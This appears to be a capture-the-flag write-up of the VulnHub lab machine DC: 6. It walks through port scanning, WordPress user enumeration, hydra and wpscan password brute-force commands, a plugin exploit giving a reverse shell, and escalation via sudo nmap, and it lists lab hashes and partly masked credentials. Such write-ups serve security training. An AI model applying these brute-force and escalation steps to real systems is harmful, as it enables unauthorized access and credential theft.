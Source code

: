 [VulnHub] DC: 6
===============
date: 10/Sep/2019
summary: This is a writeup for VulnHub machine DC: 6.
tags: vulnhub, writeup

## Overview
This is a writeup for VulnHub VM [DC: 6](https://www.vulnhub.com/entry/dc-6,315/). Here are stats for this machine from [machinescli](https://github.com/7h3rAm/machinescli):

![writeup.overview.machinescli](/static/files/posts_vulnhub_dc6/machinescli.png.webp)

### Killchain
Here's the killchain (`enumeration` → `exploitation` → `privilege escalation`) for this machine:

![writeup.overview.killchain](/static/files/posts_vulnhub_dc6/killchain.png.webp)

### TTPs
1\. `80/tcp/http/Apache httpd 2.4.25 ((Debian))`: [enumerate_app_wordpress](https://github.com/7h3rAm/writeups#enumerate_app_wordpress), [exploit_wordpress_plugin_activitymonitor](https://github.com/7h3rAm/writeups#exploit_wordpress_plugin_activitymonitor), [privesc_mysql_creds](https://github.com/7h3rAm/writeups#privesc_mysql_creds), [privesc_sudo](https://github.com/7h3rAm/writeups#privesc_sudo), [privesc_nmap](https://github.com/7h3rAm/writeups#privesc_nmap)  

## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
```
# Nmap 7.70 scan initiated Tue Sep 10 18:09:50 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/vulnhub/dc6/results/wordy/scans/_quick_tcp_nmap.txt -oX /root/toolbox/vulnhub/dc6/results/wordy/scans/xml/_quick_tcp_nmap.xml wordy
Nmap scan report for wordy (192.168.92.170)
Host is up, received arp-response (0.00024s latency).
Scanned at 2019-09-10 18:09:51 PDT for 8s
Not shown: 998 closed ports
Reason: 998 resets
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 3e:52:ce:ce:01:b6:94:eb:7b:03:7d:be:08:7f:5f:fd (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDDHiBBFUtpw1T9DZyoXpMp3kg25/RgmGZRFFmZuTfV9SJPxJCvrQXdM6P5GfFLFcgnLlcOBhBbv33N9HvWisycRypK0uLK26bntqfyTAFCdMXcud7fKNgRBxJdN8onwl4Hly3wzRBJxFWqTdD1RF8viYH4TYIs5+WLpN7KihosjpbwzPpOnbDQZUw7GdHvosV7dFI6IMcF57R4G5LzSgV66GACNGxRn72ypwfOMaVbsoxzCHQCJBvd8ULL0YeAFtNeHoyJ8tL3dZlu71Wt9ePYf7ZreO+en701iDqL6T/iyt3wwTDl7NwpZGj5+GrlyfRSFoNyHqdd0xjPmXyoHynp
|   256 3c:83:65:71:dd:73:d7:23:f8:83:0d:e3:46:bc:b5:6f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBE+jke+7np4l7EWf0wgySSp3MtYFcI6klVOWm7tDjas8eDxc9jYOhR4uK7koa2CkQPDd18XJSt0yNAGQFBb7wzI=
|   256 41:89:9e:85:ae:30:5b:e0:8f:a4:68:71:06:b4:15:ee (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAII1mnJveN8yJySEDhG8wjYqtSKmcYNdX5EVqzxYb92dP
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.25 ((Debian))
|_http-generator: WordPress 5.1.1
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Wordy &#8211; Just another WordPress site
MAC Address: 00:0C:29:F1:97:73 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Sep 10 18:09:59 2019 -- 1 IP address (1 host up) scanned in 8.96 seconds
```

2\. Here a summary of open ports and associated [AutoRecon](https://github.com/Tib3rius/AutoRecon) scan files:

![writeup.enumeration.steps.2.1](/static/files/posts_vulnhub_dc6/openports.png.webp)  

3\. We start with `80/tcp` and are presented with a `Wordpress` installation. We run `wpscan` to enumerate users and find 5 hits:  
```
admin, graham, mark, sarah and jens
```

![writeup.enumeration.steps.3.1](/static/files/posts_vulnhub_dc6/screenshot01.png.webp)  

### Findings
#### Open Ports
```
22/tcp  |  ssh   |  OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
80/tcp  |  http  |  Apache httpd 2.4.25 ((Debian))
```
#### Users
```
ssh: graham, mark, sarah, jens
wordpress: admin, graham, mark, sarah, jens
```

## Phase #2: Exploitation
1\. The VulnHub page for this VM gave a clue to create a custom wordlist from `rockyou.txt` to save time on bruteforce. This was a good starting point:  
```
cat /usr/share/wordlists/rockyou.txt | grep k01 > passwords.txt
```

2\. We run a Wordpress password bruteforce scan and find a hit for user `mark`:  
```
wpscan --url http://wordy/ --wordlist ./passwords.txt → helpdesk01
```

![writeup.exploitation.steps.2.1](/static/files/posts_vulnhub_dc6/screenshot04.png.webp)  

3\. Running a Wordpress password bruteforce scan using `hydra` gave similar results:  
```
hydra -l mark -P passwords.txt 192.168.92.170 http-post-form "/wp-login.php:log=mark&pwd=^PASS^:ERROR" → helpdesk01
```

![writeup.exploitation.steps.3.1](/static/files/posts_vulnhub_dc6/screenshot02.png.webp)  

4\. We use these credentials and login as user `mark`:  

![writeup.exploitation.steps.4.1](/static/files/posts_vulnhub_dc6/screenshot03.png.webp)  

5\. This installation has `Activity Monitor` plugin installed. There's an exploit for this plugin on ExploitDB:  

![writeup.exploitation.steps.5.1](/static/files/posts_vulnhub_dc6/screenshot16.png.webp)  

6\. We update the exploit with right IPs and chnage the `nc` commandline. This file when opened shows a HTML button which when clicked will execute the command and return a reverse shell:  

![writeup.exploitation.steps.6.1](/static/files/posts_vulnhub_dc6/screenshot08.png.webp)  

![writeup.exploitation.steps.6.2](/static/files/posts_vulnhub_dc6/screenshot09.png.webp)  

![writeup.exploitation.steps.6.3](/static/files/posts_vulnhub_dc6/screenshot05.png.webp)  

## Phase #2.5: Post Exploitation
```
www-data@dc-6> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@dc-6>  
www-data@dc-6> uname
Linux dc-6 4.9.0-8-amd64 #1 SMP Debian 4.9.144-3.1 (2019-02-19) x86_64 GNU/Linux
www-data@dc-6>  
www-data@dc-6> ifconfig
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
  link/ether 00:0c:29:f1:97:73 brd ff:ff:ff:ff:ff:ff
  inet 192.168.92.170/24 brd 192.168.92.255 scope global eth0
     valid_lft forever preferred_lft forever
  inet6 fe80::20c:29ff:fef1:9773/64 scope link
     valid_lft forever preferred_lft forever
www-data@dc-6>  
www-data@dc-6> users
graham
mark
sarah
jens
```

## Phase #3: Privilege Escalation
1\. Exploring the filesystem, we come across `/var/www/html/wp-config.php` file that has MySQL credentials in it:  
```
wpdbuser/meErKatZ
```

![writeup.privesc.steps.1.1](/static/files/posts_vulnhub_dc6/screenshot06.png.webp)  

2\. We also extract hashes for all Wordpress users from `wp_users` table:  

![writeup.privesc.steps.2.1](/static/files/posts_vulnhub_dc6/screenshot07.png.webp)  

3\. Exploring filesystem further, we find credentials for user `graham` within the `/home/mark/stuff/things-to-do.txt` file:  
```
graham/GSo7isUM1D4
```

![writeup.privesc.steps.3.1](/static/files/posts_vulnhub_dc6/screenshot11.png.webp)  

4\. We `ssh` into the system as user `graham` to gain interactive access:  

![writeup.privesc.steps.4.1](/static/files/posts_vulnhub_dc6/screenshot12.png.webp)  

5\. User `graham` can edit and execute the `/home/jens/backups.sh` as user `jens`. We modify the script to execute a shell and gain interactive access as user `jens`:  

![writeup.privesc.steps.5.1](/static/files/posts_vulnhub_dc6/screenshot13.png.webp)  

6\. User `jens` can execute `/usr/bin/nmap` as `root`. We use this to gain elevated privileges and read the flag:  

![writeup.privesc.steps.6.1](/static/files/posts_vulnhub_dc6/screenshot14.png.webp)  

![writeup.privesc.steps.6.2](/static/files/posts_vulnhub_dc6/screenshot15.png.webp)  

## Loot
### Hashes
```
root:$6$kdMFceEg$pk9h93tdD7IomhE7L0Y396HO6fxSM.XDh9dgeBhKpdZlM/WYxCZe7yPRNHfZ5FvNRuILVp2NOsqNmgjoS........................
graham:$6$WF7GkVxM$MOL.cXLpG6UTO0M4exCUFwOEiUhW6bwQa.Frg9CerQbTp.EW4QTzEAuio26Aylv.YP0JPAan10tsUFv6k........................
mark:$6$//1vISW6$9pl2v8Jg0mNE7E2mgTQlTwZ1zcaepnDyYE4lIPJDdX7ipnxm/muPD7DraEm3z0jqDe5iH/Em2i6YXJpQD........................
sarah:$6$DoSO7Ycr$2GtM5.8Lfx9Sw8X1fDMF.7zWDoVoy1892nyp0iFsqh5CfmtEROtxmejvQxu0N/8D7X8PQAGKYGl.gUb6/........................
jens:$6$JWiFWXb8$cGQi07IUqln/uLLVmmrU9VLg7apOH9IlxoyndELCGjLenxfAaVec5Gjaw2DA0QHRwS9hTB5cI2sg/Wk1O........................
```
### Credentials
```
mysql: wpdbuser/meEr....
ssh: graham/GSo7isU....
wordpress: mark/helpdes...
```

## References
* <https://www.vulnhub.com/entry/dc-6,315/>  
* <https://diaryof0x41.wordpress.com/2019/05/29/vulnhub-dc-6-walkthrough/>  

